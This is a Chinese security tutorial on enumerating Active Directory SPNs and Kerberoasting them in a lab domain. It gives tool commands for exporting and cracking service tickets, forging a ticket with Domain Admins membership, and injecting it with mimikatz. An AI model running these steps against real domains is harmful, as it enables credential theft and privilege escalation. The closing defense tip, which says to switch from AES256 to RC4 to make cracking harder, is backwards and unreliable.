# SPN 注册发现与利用方法 - 先知社区

SPN 注册发现与利用方法


## 基本介绍

SPN(ServicePrincipal Names，服务主体名称) 是服务实例 (比如：HTTP、SMB、MySQL、SQLServer 等服务) 的唯一标识符，Kerberos 认证过程使用 SPN 将服务实例与服务登录账户相关联，如果要使用 Kerberos 协议来认证服务，那么必须正确配置 SPN，如果在整个林或域中的计算机上安装多个服务实例，则每个实例都必须具有自己的 SPN 才行，如果客户端使用多个名称进行身份验证，则给定服务实例可以具有多个 SPN。SPN 始终包含运行服务实例的主机的名称，因此服务实例可以为其主机的每个名称或别名注册 SPN，一个用户账户下可以有多个 SPN，但一个 SPN 只能注册到一个账户。在内网中 SPN 扫描通过查询向域控服务器执行服务发现，这对于红队而言可以帮助他们识别正在运行重要服务的主机，例如：终端，交换机等，SPN 的识别是 kerberoasting 攻击的第一步。

## SPN 分类

SPN 大体上可以分为两类，一种注册在 AD 的机器账户下，另一种注册在域用户账户下：

*   当一个服务的权限为一个域用户，SPN 注册在域用户帐户 (Users) 下
*   当一个服务的权限为 Local System 或 Network Service，SPN 注册在机器帐户 (Computers) 下

## SPN 配置

在 SPN 的语法中存在四种元素，两个必须元素和两个额外元素，其中 <service class=""> 和 <host> 为必须元素，具体格式如下：</host></service>

```plain
<service class>/<host>:<port>/<service name>
```

参数说明：

*   <service class="">：标识服务类的字符串，可以理解为服务的名称，常见的有 WWW、MySQL、SMTP、MSSQL 等；必须元素</service>
*   <host>：服务所在主机名，host 有两种形式，FQDN(win7.xie.com) 和 NetBIOS(win7) 名；必须元素</host>
*   <port>：服务端口，如果服务运行在默认端口上，则端口号 (port) 可以省略；额外元素</port>
*   <service name="">：服务名称，可以省略；额外元素</service>

## SPN 注册

SetSPN 是一个本地 Windows 二进制文件，可用于检索用户帐户和服务之间的映射，该实用程序可以添加，删除或查看 SPN 注册 (只有 root 账号或域管理员账号才有权限注册 SPN，普通域用户注册 SPN 会提示权限不够)

```plain
setspn -S MySQL/win7-test.hacke.testlab:3306/MySQL Al1ex  //在主机 win7-test 上为 Al1ex 用户注册 SPN 服务
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161132-6d5f85fe-7e0e-1.png)  
之后可以执行以下命令查看 Al1ex 用户的 SPN：

```plain
setspn -L Al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161152-79933366-7e0e-1.png)

## SPN 发现

由于每台服务器都需要注册用于 Kerberos 身份验证服务的 SPN，因此在不进行大规模端口扫描的情况下可以通过 SPN 发现来收集有关内网域环境的信息

### SetSPN

windows 系统自带的 setspn 可以用于查询域内的 SPN：

a、查看所有的 SPN

```plain
setspn  -Q  */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161250-9c06a838-7e0e-1.png)

b、查看指定域的 SPN

```plain
setspn -T hacke.testlab -Q */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161309-a7561b4c-7e0e-1.png)

c、查找域内重复 SPN

```plain
setspn -X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161334-b65bf8e6-7e0e-1.png)

d、删除指定的 SPN

```plain
setspn -D MySQL/win7-test.hacke.testlab:3306/MySQL Al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161354-c2482508-7e0e-1.png)  
删除之后再次查看：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161406-c8eb6316-7e0e-1.png)

e、查找用户/主机名 SPN

```plain
setspn -L usernaem/hostname
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161449-e2cd4bdc-7e0e-1.png)

### Empire

PowerShell Empire 还有一个可显示域帐户的服务主体名称 (SPN) 的模块

```plain
usemodule situational_awareness/network/get_spn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161609-12b8184a-7e0f-1.png)  
但是笔者这边执行之后结果并不理想：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161625-1c404586-7e0f-1.png)

### Impacket

服务主体名称 (SPN) 也可以从未加入域的系统中发现，impacket 工具包下的 python 版 GetUserSPNs 可以为我们做到这点，但是，无法使用基于 token 的身份验证，因此与 Active Directory 进行通信需要获取有效的域凭证

```plain
./GetUserSPNs.py -dc-ip 192.168.188.2 hacke.testlab/testuser
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161747-4d091e86-7e0f-1.png)

### powersploit

Powersploit 框架集成了很多的 Powershell 脚本，其中 PowerView 可用于查看 SPN 信息：

```plain
Import-Module .\PowerView.ps1
Get-NetUser -SPN
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161811-5b2f76b8-7e0f-1.png)

### PowerShellery

Scott Sutherland 在将 Get-SPN 模块实现到 Empire 之前，已经创建了多个 Powershell 脚本作为 PowerShellery 的一部分，可以为各种服务收集 SPN，其中一些需要 PowerShell v2.0 的环境，还有一些则需要 PowerShell v3.0 环境

```plain
Import-Module .\Get-SPN.ps1
Get-SPN -type service -search "*"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161853-7446a7c0-7e0f-1.png)  
结果我们也可以将其转换为表格的形式，以便于我们的浏览：

```plain
Get-SPN -type service -search "*" -List yes | Format-Table
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161913-8058cf3e-7e0f-1.png)

获取 UserSID，服务和实际用户：

```plain
Import-Module .\Get-DomainSpn.psm1
Get-DomainSpn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162040-b40ce0e0-7e0f-1.png)

### GetUserSPNs

Tim Medin 开发了一个 PowerShell 脚本，它是 kerberoast([https://github.com/nidem/kerberoast)工具包的一部分，可以帮助我们查询活动目录，以发现仅与用户帐户相关联的服务(域用户账号查看](https://github.com/nidem/kerberoast)%E5%B7%A5%E5%85%B7%E5%8C%85%E7%9A%84%E4%B8%80%E9%83%A8%E5%88%86%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%B8%AE%E5%8A%A9%E6%88%91%E4%BB%AC%E6%9F%A5%E8%AF%A2%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%EF%BC%8C%E4%BB%A5%E5%8F%91%E7%8E%B0%E4%BB%85%E4%B8%8E%E7%94%A8%E6%88%B7%E5%B8%90%E6%88%B7%E7%9B%B8%E5%85%B3%E8%81%94%E7%9A%84%E6%9C%8D%E5%8A%A1(%E5%9F%9F%E7%94%A8%E6%88%B7%E8%B4%A6%E5%8F%B7%E6%9F%A5%E7%9C%8B))

```plain
load powershell
powershell_import /root/GetUserSPNs.ps1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162210-e9e95068-7e0f-1.png)  
还有一个 VBS 脚本也是该工具的一部分，可以为我们提供相同的信息，该脚本可以通过使用本机 Windows 二进制 cscript 从 Windows 命令提示符执行

```plain
cscript.exe .\GetUserSPNs.vbs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162227-f39c57a4-7e0f-1.png)

### PowerShell AD Recon

除了 Tim Medin 开发的工具外，Sean Metcalf 也开发了各种 PowerShell 脚本来执行 Kerberos 侦查，这些脚本是 PowerShell AD Recon 存储库的一部分，可以在 Active Directory 中查询服务，例如 Exchange，Microsoft SQL，Terminal 等。Sean 将每个脚本绑定到一个特定的服务，具体取决于你想要发现的 SPN，以下脚本将标识网络上的所有 Microsoft SQL 实例。  
PowerShell AD Recon：[https://github.com/PyroTek3/PowerShell-AD-Recon](https://github.com/PyroTek3/PowerShell-AD-Recon)

```plain
#Discover-PSMSSQLServers.ps1 的使用，扫描 MSSQL 服务
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers

#Discover-PSMSExchangeServers.ps1 的使用，扫描 Exchange 服务
Import-Module .\Discover-PSMSExchangeServers.ps1
Discover-PSMSExchangeServers

#扫描域中所有的 SPN 信息
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162255-04bd41ba-7e10-1.png)

### Find-PotentiallyCrackableAccounts

RiskySPN([https://github.com/cyberark/RiskySPN](https://github.com/cyberark/RiskySPN) ) 的 Find-PotentiallyCrackableAccounts 脚本可以帮助我们自动识别弱服务票据，主要作用是对属于用户的可用服务票据执行审计，并根据用户帐户和密码过期时限来查找最容易包含弱密码的票据。

```plain
Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -Domain "hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162322-148f264e-7e10-1.png)

## SPN 利用

### 域内认证

Kerberos 认证大致流程如下所示：

*   用户将 AS-REQ 数据包发送给 KDC(Key Distribution Centre，密钥分发中心，此处为域控)，进行身份认证
*   KDC 验证用户的凭据，如果凭据有效，则返回 TGT(Ticket-Granting Ticket，票据授予票据)
*   如果用户想通过身份认证，访问某个服务 (如 IIS)，那么他需要发起 (Ticket Granting Service，票据授予服务) 请求，请求中包含 TGT 以及所请求服务的 SPN(Service Principal Name，服务主体名称)
*   如果 TGT 有效并且没有过期，TGS 会创建用于目标服务的一个服务票据，服务票据使用服务账户的凭据进行加密
*   用户收到包含加密服务票据的 TGS 响应数据包
*   最后服务票据会转发给目标服务，然后使用服务账户的凭据进行解密

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162432-3e6c97d0-7e10-1.png)  
整个过程比较简单，我们需要注意的是，服务票据会使用服务账户的哈希进行加密，这样一来，Windows 域中任何经过身份验证的用户都可以从 TGS 处请求服务票据，然后离线暴力破解。

### 攻击思路

域内的任何一台主机都能够通过查询 SPN，向域内的所有服务请求 TGS，拿到 TGS 后对其进行暴力破解，对于破解出的明文口令，只有域用户帐户 (Users) 的口令存在价值，不必考虑机器帐户的口令 (无法用于远程连接)，因此高效率的利用思路如下：  
1、查询 SPN，找到有价值的 SPN，需要满足以下条件：  
该 SPN 注册在域用户帐户 (Users) 下  
域用户账户的权限很高  
2、请求 TGS  
3、导出 TGS  
4、暴力破解

### 利用步骤

#### 常规实现

1、查询 SPN，找到有价值的 SPN

```plain
setspn -T hacke.testlab -Q */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162600-72c1f7fa-7e10-1.png)

2、请求 TGS  
单一票据：

```plain
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/win08-server.hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162622-7fe1129a-7e10-1.png)  
3、导出 TGS

```plain
mimikatz # kerberos::list /export
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162646-8de48296-7e10-1.png)  
4、暴力破解 (选取 RC4 的来破解)

```plain
python3 tgsrepcrack.py wordlist.txt 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162709-9bb54248-7e10-1.png)  
之后我们还可以重写该 Ticket：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -u 500
```

之后添加用户到域管理员：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -g 512
```

之后使用 Mimikatz 注入到 RAM 中：

```plain
kerberos::ptt sql.kirbi
```

之后伪造域管理员账户进行访问域内主机~

#### Rubeus

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162852-d962bdfa-7e10-1.png)  
之后使用 hashcat 进行离线破解：

```plain
hashcat -m 13100 /root/hash.txt /root/pass.txt --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162922-eb4c56de-7e10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162940-f5efa1ae-7e10-1.png)

#### Powershell-1

在域内一台主机上以普通用户权限执行：

```plain
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat > 1.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163010-07e9b0b6-7e11-1.png)  
之后保存下来 (注意要使用 utf-8 编码，否则会报错) 使用 hashcat 进行暴力破解：

```plain
hashcat -m 13100 /root/hash.txt /root/pass.txt --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163036-175301ba-7e11-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163050-1faeb44e-7e11-1.png)

#### Powershell-2

使用 autokerberoast.ps1([https://github.com/xan7r/kerberoast](https://github.com/xan7r/kerberoast) ) 来实施攻击：

a、查看所有的 SPN 信息

```plain
List-UserSPNs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163118-3048d6ae-7e11-1.png)  
b、查看与域管理员关联的 SPN 信息

```plain
List-UserSPNs -GroupName "Domain Admins"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163139-3caf42fc-7e11-1.png)  
c、查看指定域名的 SPN 信息

```plain
List-UserSPNs -Domain "hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163202-4aab45fe-7e11-1.png)  
d、获取与林中唯一用户 SPN 相关联的所有票证

```plain
Invoke-AutoKerberoast
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163227-596c5704-7e11-1.png)  
e、从 Ticket 中提取 hash

```plain
python autoKirbi2hashcat.py hash.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163249-66d73ae4-7e11-1.png)  
在这里我要做一点小改变：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163308-71e66130-7e11-1.png)  
f、之后暴力猜解 hash 即可，需要注意前缀哦，记得修改~

#### Empire 框架

```plain
Empire: L7HAM3KV) > usemodule credentials/invoke_kerberoast
(Empire: powershell/credentials/invoke_kerberoast) > set Agent L7HAM3KV
(Empire: powershell/credentials/invoke_kerberoast) > execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163407-94e3e860-7e11-1.png)  
之后同样进行离线破解即可~

## 防御措施

通过将默认的 AES256\_HMAC 加密方式改为 RC4\_HMAC\_MD5，增加破解难度或者保证服务密码本身为强密码，关键是提高密码的强度
